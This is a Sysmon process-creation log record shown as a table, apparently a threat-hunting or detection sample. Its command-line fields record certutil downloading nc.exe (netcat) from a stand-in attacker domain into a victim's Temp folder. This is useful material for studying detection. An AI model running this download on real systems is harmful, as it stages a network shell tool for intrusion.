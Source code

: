 | **Field**             | **Value**                                                                                                                                                                      |
|-----------------------|--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| CommandLine           | `certutil -urlcache -split -f http://huntmeplz.com/nc.exe C:\Users\victim\AppData\Local\Temp\nc.exe`                                                                           |
| Company               | Microsoft Corporation                                                                                                                                                         |
| CurrentDirectory      | `C:\Users\victim\Downloads\`                                                                                                                                                  |
| Description           | CertUtil.exe                                                                                                                                                                  |
| EventID               | 1                                                                                                                                                                              |
| FileVersion           | 10.0.17763.1 (WinBuild.160101.0800)                                                                                                                                            |
| Hashes                | MD5=FD60D24DDCCDFAE396F0D2349F040484, SHA256=555A8B4B7C5E9614E3EF7AF2FAFC6181AA98AD9D10EBFD845D82F33EFEB7E1C7, IMPHASH=E8D77122DFEFBA52E492A9E89B1F9BEB |
| Image                 | `C:\Windows\SysWOW64\certutil.exe`                                                                                                                                            |
| IntegrityLevel        | Medium                                                                                                                                                                        |
| LogonGuid             | `{4bbef3ae-81e4-630c-b94b-100000000000}`                                                                                                                                      |
| LogonId               | `0x104bb9`                                                                                                                                                                    |
| OriginalFileName      | CertUtil.exe                                                                                                                                                                  |
| ParentCommandLine     | `"C:\Windows\System32\cmd.exe" /c certutil -urlcache -split -f http://huntmeplz.com/nc.exe C:\Users\victim\AppData\Local\Temp\nc.exe`                                         |
| ParentImage           | `C:\Windows\SysWOW64\cmd.exe`                                                                                                                                                 |
| ParentProcessGuid     | `{4bbef3ae-cbcf-630c-020f-000000000e00}`                                                                                                                                      |
| ParentProcessId       | 10284                                                                                                                                                                         |
| ParentUser            | SIGHUNT\victim                                                                                                                                                                |
| ProcessGuid           | `{4bbef3ae-cbcf-630c-060f-000000000e00}`                                                                                                                                      |
| ProcessId             | 8892                                                                                                                                                                          |
| Product               | Microsoft® Windows® Operating System                                                                                                                                          |
| RuleName              | -                                                                                                                                                                             |
| TerminalSessionId     | 2                                                                                                                                                                              |
| User                  | SIGHUNT\victim                                                                                                                                                                |
| UtcTime               | 2022-08-29 14:23:11.708                                                                                                                                                        |
